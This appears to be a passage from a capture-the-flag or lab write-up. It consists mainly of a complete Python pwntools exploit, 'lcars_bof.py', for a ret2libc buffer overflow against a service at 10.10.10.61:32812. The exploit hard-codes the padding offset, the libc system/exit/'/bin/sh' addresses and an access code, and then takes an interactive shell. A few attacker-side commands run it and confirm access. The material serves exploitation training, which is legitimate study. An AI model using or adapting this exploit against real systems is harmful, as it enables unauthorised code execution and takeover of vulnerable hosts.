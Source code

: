 > **Attacker Machine:**

```bash
nvim lcars_bof.py
python3 lcars_bof.py            # :)

whoami
hostname
hostname -I
```

> **lcars_bof.py**

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

# Global variables
host, port = "10.10.10.61", 32812

def exploitBOF():

    # Target: ret2libc --> EIP --> system_addr --> exit_addr --> bin_sh_addr

    # gdb-peda$ pattern_offset $eip
    # 625026085 found at offset: 212
    offset = 212
    junk = b"A" * offset

    # gdb-peda$ p system
    # $1 = {<text variable, no debug info>} 0xf7e4c060 <system>

    system_addr = pack("<I",0xf7e4c060)

    # gdb-peda$ p exit
    # $2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>

    exit_addr = pack("<I",0xf7e3faf0)

    # find &system,+9999999,"sh"
    # 0xf7f6ddd5

    bin_sh_addr = pack("<I",0xf7f6ddd5)

    payload = junk + system_addr + exit_addr + bin_sh_addr

    context(os="linux", arch="i386")
    r = remote(host,port)

    r.recvuntil(b"Enter Bridge Access Code:")
    r.sendline(b"picarda1")
    r.recvuntil(b"Waiting for input:")
    r.sendline(b"4")
    r.recvuntil(b"Enter Security Override:")
    r.sendline(payload)
    r.interactive()    

if __name__ == "__main__":

    exploitBOF()
```

